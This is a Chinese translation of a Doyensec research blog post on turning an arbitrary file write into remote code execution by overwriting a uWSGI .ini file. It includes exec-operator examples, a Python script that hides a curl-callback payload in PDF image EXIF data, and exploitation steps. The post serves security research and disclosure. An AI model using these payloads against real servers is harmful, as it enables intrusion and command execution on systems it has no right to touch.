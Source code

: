 # 一种新的“脏”任意文件写入 RCE 的向量 · Doyensec 的博客
2023 年 2 月 28 日 - Maxence Schmitt、Lorenzo Stella 发表

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/01d71a13-6a02-4a36-b51a-b50b077164da.png?raw=true)

Web 应用程序上传中的任意文件写入 (AFW) 漏洞可能成为攻击者的强大工具，可能允许他们提升权限，甚至在服务器上实现远程代码执行 (RCE)。但是，可用于实现此升级的具体策略通常取决于攻击者面临的具体场景。在野外，攻击者在 Web 应用程序中尝试从 AFW 升级到 RCE 时可能会遇到多种情况。这些通常可以归类为：

*   **仅控制完整文件路径或文件名：** 在这种情况下，攻击者能够控制完整文件路径或上传文件的名称，但不能控制其内容。根据应用于目标目录和目标应用程序的权限，影响可能会有所不同，从拒绝服务到干扰应用程序逻辑以绕过潜在的安全敏感功能。
*   **仅控制文件内容：** 攻击者可以控制上传文件的内容，但不能控制文件路径。在这种情况下，由于多种因素，影响可能会有很大差异。
*   **完全任意文件写入：** 攻击者可以控制上述两者。这通常会导致 RCE 使用各种方法。

过去，在适度加固的环境（在以非特权用户身份运行的应用程序中）中，使用了多种策略通过 AFW 实现 RCE：

*   覆盖或添加将由应用程序服务器处理的文件：
    *   配置文件（例如`.htaccess`、`.config`、`web.config`、`httpd.conf`和`__init__.py`）`.xml`
    *   从应用程序的根目录提供的源文件（例如，，，`.php`文件）`.asp``.jsp`
    *   临时文件
    *   秘密或环境文件（例如，`venv`）
    *   序列化会话文件
*   操纵procfs执行任意代码
*   覆盖或添加操作系统或系统中其他守护进程使用或调用的文件：
    *   crontab 例程
    *   Bash 脚本
    *   `.bashrc`,`.bash-profile`和`.profile`
    *   `authorized_keys`和`authorized_keys2`\- 获得 SSH 访问
    *   滥用监管者急于重装资产

**重要的是要注意，在对 Web 应用程序（例如 PHP、ASP 或临时文件）中的文件内容进行部分控制的情况下，只能使用这些策略中的一小部分**。使用的具体方法将取决于具体的应用程序和服务器配置，因此了解受害者系统中存在的独特漏洞和攻击向量非常重要。

下面的文章说明了在我们的一次参与中获得任意命令执行的真实世界的不同漏洞链，这导致发现了一种新方法。**这在攻击者只能部分控制注入的文件内容（“脏写”）或对其内容执行服务器端转换时特别有用。** 

### “脏”任意文件写入的示例

在我们的场景中，应用程序有一个易受攻击的端点，攻击者可以通过该端点执行路径遍历并通过 PDF 导出功能写入/删除文件。其相关职能负责：

1.  读取现有的 PDF 模板文件及其流
2.  结合 PDF 模板和攻击者提供的新内容
3.  将结果保存在攻击者命名的 PDF 文件中

攻击是有限的，因为它只能影响应用程序用户具有正确权限的文件，并且所有应用程序文件都是只读的。虽然攻击者已经可以利用该漏洞首先删除日志或文件数据库，但乍一看不可能产生更大的影响。通过查看目录，还可以找到以下文件：

```
 drwxrwxr-x  6 root   root     4096 Nov 18 13:48 .
    -rw-rw-r-- 1 webuser webuser 373 Nov 18 13:46 /app/console/uwsgi-sockets.ini 
```

### uWSGI 对配置文件的松散解析

受害者的应用程序是通过一个 uWSGI 应用程序服务器（v2.0.15）部署在基于 Flask 的应用程序前面的，充当进程管理器和监视器。uWSGI 可以使用几种不同的方法进行配置，支持通过简单的磁盘文件（）加载配置文件`.ini`。[负责解析这些文件的 uWSGI 本机函数在core/ini.c:128](https://github.com/unbit/uwsgi/blob/2329e6ec5f2336ba59e39d971de0e7b93f1c59ff/core/ini.c#L128)中定义。配置文件最初被完整读入内存并扫描以定位指示有效 uWSGI 配置开始的字符串（“ `[uwsgi]`”）：

```C
	while (len) {
		ini_line = ini_get_line(ini, len);
		if (ini_line == NULL) {
			break;
		}
		lines++;

		// skip empty line
		key = ini_lstrip(ini);
		ini_rstrip(key);
		if (key[0] != 0) {
			if (key[0] == '[') {
				section = key + 1;
				section[strlen(section) - 1] = 0;
			}
			else if (key[0] == ';' || key[0] == '#') {
				// this is a comment
			}
			else {
				// val is always valid, but (obviously) can be ignored
				val = ini_get_key(key);

				if (!strcmp(section, section_asked)) {
					got_section = 1;
					ini_rstrip(key);
					val = ini_lstrip(val);
					ini_rstrip(val);
					add_exported_option((char *) key, val, 0);
				}
			}
		}

		len -= (ini_line - ini);
		ini += (ini_line - ini);

	}

```

更重要的是，uWSGI 配置文件还可以包含“魔法”变量、占位符和用精确语法定义的运算符。特别是' ' 运算符以包含文件内容的`@`形式使用。`@(filename)`支持许多 uWSGI 方案，包括“ `exec`” \- 从进程的标准输出中读取很有用。`.ini`在解析配置文件时，可以将这些运算符武器化用于远程命令执行或任意文件写入/读取：

```
 [uwsgi]
    ; read from a symbol
    foo = @(sym://uwsgi_funny_function)
    ; read from binary appended data
    bar = @(data://0)
    ; read from http
    test = @(http://doyensec.com/hello)
    ; read from a file descriptor
    content = @(fd://3)
    ; read from a process stdout
    body = @(exec://whoami)
    ; call a function returning a char *
    characters = @(call://uwsgi_func) 
```

### uWSGI 自动重载配置

虽然滥用上述`.ini`文件是一个很好的途径，但攻击者仍然需要一种方法来重新加载它（例如通过第二个 DoS 漏洞触发服务重启或等待服务器重启）。为了解决这个问题，一个标准的 uWSGI 部署配置标志可以减轻漏洞的利用。在某些情况下，uWSGI 配置可以指定一个 py-auto-reload 开发选项，Python 模块在用户确定的时间跨度（在本例中为 3 秒）内被监视，指定为参数。如果检测到更改，它将触发重新加载，例如：

```
 [uwsgi]
    home = /app
    uid = webapp
    gid = webapp
    chdir = /app/console
    socket = 127.0.0.1:8001
    wsgi-file = /app/console/uwsgi-sockets.py
    gevent = 500
    logto = /var/log/uwsgi/%n.log
    harakiri = 30
    vacuum = True
    py-auto-reload = 3
    callable = app
    pidfile = /var/run/uwsgi-sockets-console.pid
    log-maxsize = 100000000
    log-backupname = /var/log/uwsgi/uwsgi-sockets.log.bak 
```

在这种情况下，直接在 PDF 中编写恶意 Python 代码是行不通的，因为 Python 解释器在遇到 PDF 的二进制数据时会失败。另一方面，`.py`用任何数据覆盖文件将触发 uWSGI 配置文件重新加载。

### 把它们放在一起

在我们的 PDF 导出场景中，我们必须制作一个多态的、语法上有效的 PDF 文件，其中包含我们有效的多行`.ini`配置文件。`.ini`在与 PDF 模板合并期间必须保留有效负载。我们能够将多行有效`.ini`负载嵌入到 PDF 中包含的图像的 EXIF 元数据中。为了构建这个多语言文件，我们使用了以下脚本：

```Python
    from fpdf import FPDF
    from exiftool import ExifToolHelper

    with ExifToolHelper() as et:
        et.set_tags(
            ["doyensec.jpg"],
            tags={"model": "&#x0a;[uwsgi]&#x0a;foo = @(exec://curl http://collaborator-unique-host.oastify.com)&#x0a;"},
            params=["-E", "-overwrite_original"]
        )

    class MyFPDF(FPDF):
        pass

    pdf = MyFPDF()

    pdf.add_page()
    pdf.image('./doyensec.jpg')
    pdf.output('payload.pdf', 'F')

```

此元数据将成为写入服务器的文件的一部分。在我们的开发中，uWSGI 的预先加载选择了新的配置并执行了我们的`curl`有效载荷。可以使用以下命令在本地测试有效载荷：

让我们通过以下步骤在 Web 服务器上利用它：

1.  上传`payload.pdf` 到`/app/console/uwsgi-sockets.ini`
2.  等待服务器重新启动或通过覆盖任何强制 uWSGI 重新加载`.py`
3.  `curl`验证Burp 协作者所做的回调

### 结论

正如本文中强调的那样，我们引入了一种新的基于 uWSGI 的技术。除了攻击者已经在各种情况下使用的策略之外，它还提供了从 Web 应用程序上传中的任意文件写入 (AFW) 漏洞升级到远程代码执行 (RCE) 的策略。这些技术随着服务器技术的发展而不断发展，未来必将有新的方法得到普及。这就是为什么与研究社区分享已知的升级向量很重要。我们鼓励研究人员继续分享已知载体的信息，并继续寻找新的、不太受欢迎的载体。